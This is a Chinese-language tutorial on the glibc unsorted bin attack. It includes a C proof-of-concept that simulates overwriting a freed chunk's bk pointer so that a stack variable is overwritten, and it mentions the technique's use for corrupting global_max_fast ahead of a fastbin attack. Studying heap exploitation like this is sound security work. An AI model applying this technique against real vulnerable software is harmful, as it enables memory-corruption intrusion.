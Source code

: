 # 前言
这一小节我们重新来看一下unsortedbin attack，这个作用是想某个地址中写入超大值，除了这一点，**<font style="color:#F5222D;">我们可以向global_max_fast写入一个超大值，从而使用fastbin attack进行攻击。</font>**

# 影响版本
glibc <= version 2.27（不清楚glibc 2.28是否修复，懒得看了）

# POC
## POC源码
```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main(){
	fprintf(stderr, "This technique only works with buffers not going into tcache, either because the tcache-option for "
		    "glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build "
		    "instructions.\n");
	fprintf(stderr, "This file demonstrates unsorted bin attack by write a large unsigned long value into stack\n");
	fprintf(stderr, "In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
		   "global variable global_max_fast in libc for further fastbin attack\n\n");

	volatile unsigned long stack_var=0;
	fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
	fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);

	unsigned long *p=malloc(0x410);
	fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
	fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
	malloc(500);

	free(p);
	fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
		   "point to %p\n",(void*)p[1]);

	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2);
	fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
	fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

	//------------------------------------

	malloc(0x410);
	fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
		   "rewritten:\n");
	fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);

	assert(stack_var != 0);
}
```